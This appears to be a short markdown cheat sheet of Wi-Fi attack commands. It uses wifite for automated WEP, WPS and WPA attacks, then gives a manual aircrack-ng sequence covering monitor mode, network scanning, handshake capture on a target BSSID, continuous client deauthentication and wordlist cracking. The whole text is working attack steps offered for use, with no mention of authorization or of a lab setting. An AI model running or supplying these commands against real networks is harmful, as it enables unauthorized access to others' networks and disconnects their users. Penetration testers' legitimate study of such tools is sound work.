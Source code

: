 
### Automated

**WEP / WPS attack**

```
wifite -wpa -wps -wep -mac --kill
```

**All attacks**

```
wifite -mac --kill
```

### Manual

**Kill potentially interfering processes**

```
airmon-ng check kill
```

**Set interface to monitor mode**

```
airmon-ng start <INTERFACE>
```

**List wireless networks**

```
airodump-ng <INTERFACE>
```

**Attempt to crack a network, saving a capture (.cap) file**

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -w <SAVE-PATH> <INTERFACE>
```

**Deauthenticate clients**

```
aireplay-ng --deauth 0 -a <MAC-ADDRESS> <INTERFACE>
```

**Attempt to crack a network**

```
aircrack-ng <PATH-TO-CAP-FILE> -w <PATH-TO-WORD-LIST>
```

**Set an interface to managed mode**

```
airmon-ng stop <INTERFACE>
```

**Restart the Network manager**

```
service NetworkManager restart
```
